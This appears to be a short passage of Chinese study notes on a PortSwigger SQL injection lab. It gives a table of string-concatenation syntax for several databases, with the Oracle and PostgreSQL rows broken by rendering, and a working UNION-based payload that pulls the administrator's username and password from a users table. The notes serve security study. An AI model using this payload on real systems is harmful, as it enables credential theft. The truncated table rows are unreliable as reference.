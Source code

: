 | 数据库         | 拼接写法   | 示例                              |
| -------------- | ---------- | --------------------------------- |
| **Oracle**     | `          |                                   |
| **MySQL**      | `CONCAT()` | `CONCAT(username, '~', password)` |
| **PostgreSQL** | `          |                                   |
| **SQL Server** | `+`        | `username + '~' + password`       |

![image-20250712002916069](portswigger.assets/image-20250712002916069.png)

发现“1”是不回显的，直接跳到最后一步

**category=Gifts' union select '1',username || '~' || password from users where username='administrator'--**
